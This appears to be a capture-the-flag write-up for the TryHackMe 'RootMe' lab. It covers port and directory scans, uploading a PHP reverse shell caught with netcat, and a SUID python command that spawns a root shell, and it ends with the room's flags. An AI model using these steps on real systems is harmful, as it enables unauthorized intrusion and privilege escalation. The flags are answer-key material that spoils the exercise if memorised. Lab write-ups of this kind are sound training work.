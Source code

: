 # Rootme - TryHackMe 

[](https://tryhackme-images.s3.amazonaws.com/room-icons/11d59cb34397e986062eb515f4d32421.png)

## Scanning

```bash
nmap -T4 -A -p- MACHINE_IP
Nmap scan report for MACHINE_IP
Host is up (0.15s latency).
Not shown: 65464 closed ports, 69 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Dir bruteforce:


```bash
gobuster dir -u MACHINE_IP -w /usr/share/wordlists/dirb/common.txt
===============================================================

/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```

## Explotation


* `http://MACHINE_IP/panel/``   has a file upload, i already know what im gonna do.

* Lets listen on our port `nc -lvnp 4444`, lets upload our shell `shell.phtml`

* Get a shell by: `curl http://MACHINE_IP/uploads/shell.phtml` 

* Find our flag - `find | grep "user.txt" 2>/dev/null`

## Privilege Escalation

`find / -user root -perm /4000`

```bash
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
/usr/bin/python  this one looks interesting 
```

* Since, `/usr/bin/python` has the suid bit we can promote our shell to root!

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```bash
# whoami
# root
``` 

## Flags

<details>
    <summary>user.txt</summary>

    ```bash
    THM{y0u_g0t_a_sh3l}
    ```

</details>

<details>
    <summary>root.txt</summary>

    ```bash
    THM{pr1v1l3g3_3sc4l4t10n}
    ```

</details>

## Thank You! 

